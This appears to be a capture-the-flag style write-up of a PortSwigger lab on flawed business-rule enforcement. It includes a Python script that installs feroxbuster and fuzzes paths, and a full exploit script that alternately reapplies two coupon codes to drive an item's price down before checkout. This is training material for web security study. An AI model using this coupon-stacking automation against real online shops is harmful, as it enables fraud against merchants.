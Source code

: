 ```yaml
--- 
title: "Flawed Enforcement of Business Rule"
author: ""
date: 2024-06-01T17:57:16+01:00
description: ""
draft: false
disableComments: false
categories: []
series: [] #Taxonomy to list "See Also" Section in Opengraph Templates
tags: []
slug: ""
summary: ""
---
```

#### Entities
Asset: https://0a3900c2044cf17781f1123e00480036.web-security-academy.net

#### Enumeration
Access the lab, add the domain to Burp's Target scope and check `Include subdomains`. View `/` route source page and inspect the page, then request all embedded links via Burp proxy using the scripts below.

```python
import os
import platform
import subprocess
import sys

def check_binary(binary_name):
  if sys.platform.startswith('linux') or sys.platform.startswith('darwin'):
    command = ['which', binary_name]
  elif sys.platform.startswith('win'):
    command = ['where', binary_name]
  else:
    print("Unsupported operating system")
    return

  try:
    subprocess.check_output(command)
    return True
  except subprocess.CalledProcessError:
    print(f"{binary_name} is not installed.")
    return False

def install_binary(binary_url, binary_name):
  os_name = platform.system().lower()
  binary_file = f"{binary_name}.zip" if os_name == 'windows' else f"{binary_name}.tar.gz"
  
  # Check if binary exists
  if not check_binary(binary_name):
    # Download Binary File if not exist
    if not os.path.exists(binary_file):
      if os_name == 'linux':
        download_command = f"curl -L {binary_url}/x86_64-linux-{binary_name}.tar.gz -o {binary_file}"
      elif os_name == 'darwin':
        download_command = f"curl -L {binary_url}/x86_64-macos-{binary_name}.tar.gz -o {binary_file}"
      elif sys.platform.startswith('win'):
        download_command = f"powershell -Command 'Invoke-WebRequest {binary_url}/x86_64-windows-{binary_name}.exe.zip -OutFile {binary_file}'"
      else:
        print("Unsupported operating system")
        return

      try:
        subprocess.run(download_command, shell=True, check=True)
        print(f"{binary_name} downloaded successfully")
      except subprocess.CalledProcessError as e:
        print(f"Failed to download {binary_name}: {e}")

    # Install Binary
    if os.path.exists(binary_file):
      if os_name in ['linux', 'darwin']:
        extract_command = f"sudo tar -C /usr/local/bin/ -xzf {binary_file} {binary_name} && sudo chmod 775 /usr/local/bin/{binary_name}"
      elif sys.platform.startswith('win'):
        extract_command = f"Powershell -Command \"Expand-Archive -Path {binary_file} -DestinationPath . ; Move-Item -Path .\\{binary_name}.exe -Destination 'C:\\Windows\\'\""
      else:
        print("Unsupported operating system")
        return

      try:
        subprocess.run(extract_command, shell=True, check=True)
        print(f"{binary_name} installed successfully")
      except subprocess.CalledProcessError as e:
        print(f"Failed to install {binary_name}: {e}")

      # Clean up downloaded binary file
      try:
        cleanup_command = f"rm {binary_file}" if os_name != 'windows' else f"del {binary_file}"
        subprocess.run(cleanup_command, shell=True, check=True)
        print(f"Cleaned up {binary_file}")
      except subprocess.CalledProcessError as e:
        print(f"Failed to clean up {binary_file}: {e}")
  else:
    print(f"{binary_name} is already installed.")

def enumerate_path(endpoint, wordlist_path):
  print("Enumerating paths...")
  fuzz_command = f"feroxbuster -u {endpoint} -w {wordlist_path} -C 404 --proxy http://127.0.0.1:8080 --insecure --quiet --no-state --auto-tune"
  process = subprocess.Popen(fuzz_command.split(), stdout=subprocess.PIPE, stderr=subprocess.STDOUT, text=True)
  for line in process.stdout:
    print(line.strip())

def main():
  binary_url = "https://github.com/epi052/feroxbuster/releases/download/v2.10.2"
  binary_name = "feroxbuster"
  endpoint = "https://0a3900c2044cf17781f1123e00480036.web-security-academy.net/"
  wordlist_path = "wordlist.txt"
  install_binary(binary_url, binary_name)
  enumerate_path(endpoint, wordlist_path)

if __name__ == "__main__":
  main()
```
The custom word list used for the above enumeration.
```text
accounts
admin
administrator
api
users
products
product
```

![Enumeration](/images/bizlogic4/01-enumerate-flawed-enforcement-of-business-rule.png "Enumeration")  

#### Exploration
Stacking BurpSuite and the Browser with FoxyProxy extension for Burp turned on, explore the application by signing up for the newsletter and save the signup coupon and the new customer coupon. Then perform a user flow for purchasing an item after logging in with the provided user credential  `wiener:peter`.

![Exploration](/images/bizlogic4/02-explore-flawed-enforcement-of-business-rule.png "Exploration") 

#### Exploitation
The `/login` when requested with valid credentials makes a POST request with `csrf`, `username` and `password` parameters. Return to the homepage and attempt purchasing an item with the coupons saved applied. Reapply these coupons in the order previously done and observe that the coupons were successfully applied to the items. Repeat this to reduce the item price to the minimum that you can and place the order to purchase the item. This exploit can be automated with the script below
```python
from bs4 import BeautifulSoup
from urllib.parse import urljoin
import re
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Define Variables
base_url = 'https://0a3900c2044cf17781f1123e00480036.web-security-academy.net/'
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

# Get CSRF Token
def get_csrf_token(session, url):
  response = session.get(url, proxies=proxies, verify=False)
  csrf_token = BeautifulSoup(response.text, 'html.parser').find('input', {'name': 'csrf'}).get('value')
  return csrf_token

def get_coupon_codes(session, url):
  response = session.get(url, proxies=proxies, verify=False)
  soup = BeautifulSoup(response.content, "html.parser")
  csrf_token = get_csrf_token(session, url)
  
  # Sign up for the newsletter
  form_data = {
    "csrf": csrf_token,
    "email": "attacker@evil.sec"  # Replace with your email address
  }
  signup_response = session.post(url + "sign-up", data=form_data)

  # Extract coupon codes from the response
  newcust_coupon = re.search(r'New customers use code at checkout: (\w+)', str(soup)).group(1)
  signup_coupon = re.search(r'(?<=coupon )([A-Z]+[0-9]+)', signup_response.text).group()

  # Return coupon codes as a list
  coupon_codes = [newcust_coupon, signup_coupon]
  return coupon_codes

# Purchase Item
def purchase_item(session, url):
  # Login
  login_url = urljoin(base_url, 'login')
  login_csrf_token = get_csrf_token(session, login_url)
  login_payload = {'username': 'wiener', 'password': 'peter', 'csrf': login_csrf_token}
  login_response = session.post(login_url, data=login_payload, proxies=proxies, verify=False)
  if login_response.status_code == 200:
    # Add item
    cart_url = urljoin(base_url, 'cart')
    cart_payload1 = {'productId': '1', 'redir': 'PRODUCT', 'quantity': '1'}
    session.post(cart_url, data=cart_payload1, proxies=proxies, verify=False)

    # Add coupon
    coupon_url = urljoin(base_url, 'cart/coupon')
    coupon_codes = get_coupon_codes(session, url)
    for coupon in coupon_codes * 4:
      coupon_payload = {'csrf': get_csrf_token(session, cart_url), 'coupon': coupon}
      session.post(coupon_url, data=coupon_payload, proxies=proxies, verify=False)
      print(f"Added coupon {coupon}")

    # Checkout
    checkout_url = urljoin(base_url, 'cart/checkout')
    checkout_csrf_token = get_csrf_token(session, cart_url)
    checkout_payload = {'csrf': checkout_csrf_token}
    checkout_response = session.post(checkout_url, data=checkout_payload, proxies=proxies, verify=False)
    if checkout_response.status_code == 200:
      print("Purchase successful!")
    else:
      print("Failed to checkout.")
  else:
    print("Failed to log in.")

def main():
  session = requests.Session()
  purchase_item(session, base_url)

if __name__ == "__main__":
  main()
```
![Exploitation](/images/bizlogic4/03-exploit-flawed-enforcement-of-business-rule.png "Exploitation") 

![Solution](/images/bizlogic4/04-lab-solution.png "Solution")   

#### Resources
- https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-flawed-enforcement-of-business-rules
- https://github.com/knoxknot/portswigger/tree/main/business-logic/04-flawed-enforcement-of-business-rule